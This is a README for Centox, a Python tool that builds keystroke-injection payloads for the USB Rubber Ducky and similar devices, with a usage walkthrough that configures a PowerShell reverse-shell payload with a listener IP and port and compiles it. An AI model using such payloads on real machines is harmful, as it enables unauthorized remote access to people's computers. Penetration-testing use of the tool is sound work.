 <p align="center">
    <img src="/assets/media/logo.png" height="200">
</p>

<h1 align="center">
  Centox
</h1>

Centox is an injection handler written in python3 and is designed to provide a collection of injection
payloads written for the [USB Rubber ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe/)
which was designed by [Hak5](https://shop.hak5.org/). This project contains payloads designed for 
establishing remote access, deploying and running executables and more in as short time as possible.
Centox comes with payloads designed Windows, Mac and Linux with the assumption that the target has not
modified their default shortcuts.


## Disclaimer

This project was designed for testing purposes __ONLY__ and is not to be used without explicit permission.
Hacking without permission is not encouraged and the author is not responsible for any illegal use of this tool.

## Compatibility
- [x] USB Rubber Ducky
- [x] O.MG Cable
- [x] Bash Bunny

## Installation

Downloading and running setup.py:
```
$ git clone https://github.com/Sigurd-Pettersen/Centox.git
$ sudo python3 Centox/setup.py
```
running setup.py will automatically generate a centox executable to be run in terminal.

## Usage
Starting the centox handler:
```
$ centox
```

the handler commands can be listed using the `help` command:
```
[Centox] $ help

Command    Description
---------  ---------------------------------------------
list       lists all available: payloads layouts formats
use        choose a payload to use
set        sets global or payload arguments
options    show all available arguments
generate   generates the current payload
help       shows this help message
```

how to generate payloads:
```
[Centox] $ use windows/shell/powershell
 
[Centox] $ options
 
 Payload: windows/shell/powershell
 
Argument       Value
-------------  -------
start_delay    500
ip
port
windows_admin  false
 
[Centox] $ set ip 192.168.68.42
 
[Centox] $ set port 9999
 
[Centox] $ generate -o /home/user/inject.bin -l no
[*] created temporary folder -> /tmp/tmpfeccetz0
[*] writing raw payload to -> /tmp/tmpfeccetz0/payload
[*] compiling payload to injection binary...
[*] injection compiled successfully -> /home/user/inject.bin
```

